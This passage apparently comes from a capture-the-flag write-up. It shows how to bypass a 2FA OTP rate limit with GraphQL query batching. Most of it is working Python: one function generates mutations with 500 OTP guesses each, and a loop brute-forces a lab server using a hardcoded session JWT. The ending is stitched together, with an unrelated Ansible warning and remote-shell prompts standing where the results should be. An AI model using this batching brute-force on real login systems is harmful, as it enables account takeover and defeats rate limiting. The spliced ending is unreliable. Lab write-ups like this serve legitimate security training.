 This GraphQL mutation queries a `verify2FA` function with the provided one-time password (OTP). The function is expected to return a message and a token if the OTP is valid.

The first thing I tried was to bruteforce but there is a ratelimit implemented which makes it quite impossible as the the OTP expires after 2 minutes.

![A screenshot which shows that we’re being rate-limited](/static/images/stack-the-flags-2022/rate-limit.png)

Since we’re not able to bruteforce it, I tried using GraphQL Batching, which improves performance by reducing the number of round trips between the client and the server. However, if not properly implemented, it can also create vulnerabilities that can be exploited. In our case, we will send a batch request containing a mix of legitimate and malicious queries. The server processes the legitimate queries and returns the results to us. In simpler words, we will be attempting to exploit a vulnerability in a GraphQL server that allows batching of multiple queries in a single request.

We will create a function that generates a GraphQL mutation containing multiple `verify2FA` queries with different one-time password (OTP) values and constructs a GraphQL mutation containing these queries and returns it. This is needed because we won’t be able to send all the OTP values at once.

```python
def gen_payload(i):
    final=""
    for token in ["%04d" % I for I in range(i,i+500)]:
        single ='\n    jaja'+token+' : verify2FA(otp: \"'+token+'\"){\n        message,\n        token    }\n '
        final+=single
    payload = 'mutation {\n   '+final+'  \n}'
    return payload
```

Then we just keep bruteforcing until we get a hit and get the new token.

```python
import requests
while True:
    session = requests.session()
    burp0_url = "http://10.129.255.194:80/graphql"
    burp0_cookies = {"session": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImpvaG4iLCJvdHBfdmVyaWZpY2F0aW9uIjpmYWxzZSwiaWF0IjoxNjcwMDIwMDYyLCJleHAiOjE2NzAwMjM2NjJ9.r624Ftvgxhuo7rNPeI1JeJpQzVTXON6cNpN0EAmABiE"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://10.129.255.194", "Referer": "http://10.129.255.194/admin/otp_verfification", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    burp0_json={"query": gen_payload(i)}
    rar = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
    print(rar.text)
    if ("token" in rar.text):
        print("hurray: ",i)
        break
    i+=500
```

And we just run the script until we get a hit:


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname
